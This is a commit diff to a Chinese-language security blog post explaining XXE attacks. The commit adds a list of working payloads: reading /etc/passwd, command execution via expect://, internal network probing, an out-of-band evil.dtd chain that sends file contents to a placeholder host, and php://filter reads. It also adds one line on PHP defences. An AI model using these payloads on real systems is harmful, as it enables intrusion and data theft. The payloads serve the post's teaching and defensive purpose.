

Before and after one commit to kerno-yep/kerno-yep.github.io, a Jekyll site: the page built from _posts/2022-09-30-XXE.md, in a window 1280 px wide and 1400 px high, scrolled down 555 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1740 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
modified:   _posts/2022-09-30-XXE.md

````diff
--- a/_posts/2022-09-30-XXE.md
+++ b/_posts/2022-09-30-XXE.md
@@ -15,17 +15,18 @@
 #### DTD(DocumentType Definition)
 
 文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束
+将.dtd文件托管在VPS上，使服务器获取该文件并执行其中的恶意命令可以窃取服务器文件等
 
 #### XML格式
 
 ```xml-dtd
 #内部实体调用
-<?xml version="1.0" encoding="utf-8" ?> #xml定义
-<!DOCTYPE evil[ #内部DTD
+<?xml version="1.0" encoding="utf-8" ?> #xml声明
+<!DOCTYPE evil[ #内部DTD 文档类型定义
     <!ELEMENT evil ANY> #声明约束元素，内容随意
     <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
 ]>
-<test>
+<test>  #文档元素
 <name>&xxe;</name> #对实体的引用
 </test>
 
@@ -45,7 +46,67 @@
 
 
 
+#### 基础payload整理
+
+```xml-dtd
+#文件读取
+<?xml version="1.0" encoding="utf-8"?>
+<!DOCTYPE xxe [
+    <!ELEMENT a ANY >
+    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
+]>
+<a>
+    <name>&xxe;</name>
+</a>
+
+
+#命令执行，需要expect扩展
+<?xml version="1.0" encoding="utf-8"?>
+<!DOCTYPE xxe [
+<!ELEMENT name ANY >
+<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
+<root>
+<name>&xxe;</name>
+</root>
+
+#内网探测
+<?xml version="1.0" encoding="utf-8"?>
+<!DOCTYPE xxe [
+<!ELEMENT name ANY>
+<!ENTITY xxe SYSTEM "http://x.x.x.x:PORT">]>
+<root>
+<name>&xxe;</name>
+</root>
+
+#远程加载恶意dtd
+<?xml version="1.0" encoding="ISO-8859-1"?>
+<!DOCTYPE foo [
+<!ENTITY % pe SYSTEM "http://x.x.x.x/evil.dtd">
+%pe;
+%param1;
+]>
+<foo>&external;</foo>
+#evil.dtd
+<!ENTITY % payload SYSTEM "file:///etc/passwd">
+<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://x.x.x.x/page?data=%payload;'>">
+
+<!DOCTYPE root[
+        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
+]>
+<root><name>&xxe;</name></root>
+
+#php filter文件读取
+<?xml version="1.0" encoding="utf-8"?>
+<!DOCTYPE root[
+        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
+]>
+<root><name>&xxe;</name></root>
+```
+
+
+
 #### php_XXE防御
 
 禁用`libxml_disable_entity_loader()`函数
 升级libxml库版本>2.9.0
+过滤用户提交的XML数据
````
